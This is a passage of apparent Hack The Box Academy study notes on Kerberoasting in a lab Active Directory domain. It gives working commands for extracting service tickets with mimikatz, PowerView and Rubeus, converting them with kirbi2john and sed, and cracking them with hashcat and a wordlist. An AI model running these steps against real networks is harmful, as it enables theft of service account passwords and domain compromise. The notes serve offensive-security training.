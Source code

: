 ```
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```

if we do not specify  `base64 /out:true` , mimikatz will extract the tickets and write them to `.kirbi` files

- decode this base64 Blob and save into file`sqldev.kirbi`
- then use `kirbi2john` to extract Kerberos Ticket.
- `dollarboysushil@htb[/htb]**$** sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` → modify the file/hash for Hashcat
    
    **$**krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b38e71a057feeab → it will look something like this
    
- `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`  → finally cracking the hash.

<aside>
🤖 **Automated / Tool Based Route**

</aside>

- `setspn.exe -Q */*` → list available spns

# **Using PowerView**

- `PS C:\htb> Import-Module .\PowerView.ps1` → importing powerview
- `PS C:\htb> Get-DomainUser * -spn | select samaccountname` → getting spn account
- `PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat` → Targeting Specific User

- `PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` → Exporting All tickets to csv file

# **Using Rubeus**

Rubeus doesnot need us to explicitly set the SPN or the user.

- `PS C:\htb> .\Rubeus.exe kerberoast /stats` → get the stats
- `PS C:\htb> .\Rubeus.exe kerberoast`
    
    we can add flag `/nowrap` so that hash will not be wrapped in any form so it will be easier to crack using hashcat.
    
    also we can use `/outfile:filename` to save the ticket, instead of displaying it. 
    
- `PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap` → for specific user.

we can use `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist